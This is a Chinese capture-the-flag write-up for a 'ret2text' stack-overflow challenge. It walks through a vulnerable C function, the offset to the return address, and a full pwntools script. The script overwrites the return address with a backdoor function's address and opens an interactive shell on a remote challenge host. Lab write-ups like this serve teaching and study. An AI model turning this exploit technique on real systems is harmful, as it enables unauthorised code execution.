 ```yaml
---
title: ret2text
date: '2025-6-14 22:00'
categories:
  - PWN
  - ret2text 栈溢出
---
```

![](/images/{10D37E23-7399-4EDB-BFAE-C6662B1460E6}.png)
检查安全机制发现 **NX (No-Execute) 已启用**，这意味着栈内存不可执行，因此无法直接执行栈上的 shellcode。但题目中有一个明显的 **后门函数**，这应该才是解题的关键。
![](/images//assets/images/Pastedimage20250605162859.png)
![](/images//assets/images/Pastedimage20250605162923.png)
![](/images//assets/images/Pastedimage20250605160858.png)
![](/images/{3115B1EC-E572-40CA-94A3-ACD9DAAACB99}.png)
### 一、漏洞点分析
1. **`ctfshow` 函数的栈溢出**：
 ```c
ssize_t ctfshow() {
    char buf[14]; // [esp+6h] [ebp-12h] BYREF
    return read(0, buf, 0x32u); // 读取 0x32（50）字节到 14 字节的 buf → 栈溢出
}
```
1. **缓冲区大小**：`buff[14]` 实际占用14字节
2. **栈位置**：`[ebp-12h]` (12h = 18字节)
3. **读取长度**：0x32u (50字节)
### 正确的偏移计算
1. 从缓冲区开始到保存的EBP：`ebp - buff = 12h = 18字节`
2. 从保存的EBP到返回地址：返回地址位于`EBP+4`处，需要额外4字节
3. **总偏移**：18字节(到EBP) + 4字节(覆盖EBP) = 22字节
```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')

# 启动进程或远程连接
# p = process('./pwn4')  # 本地测试
p = remote('10.190.131.17', 53288)  # 远程攻击

# 构造payload
payload = b'A' * (0x12+4)        # 填充18字节
payload += p32(0x08048521) # 覆盖返回地址为backdoor

p.sendline(payload)# 发送payload
p.interactive()# 获取交互式shell
```
![](/images/{AE10E247-E07F-4983-96FD-5C8A57C3DC35}.png)













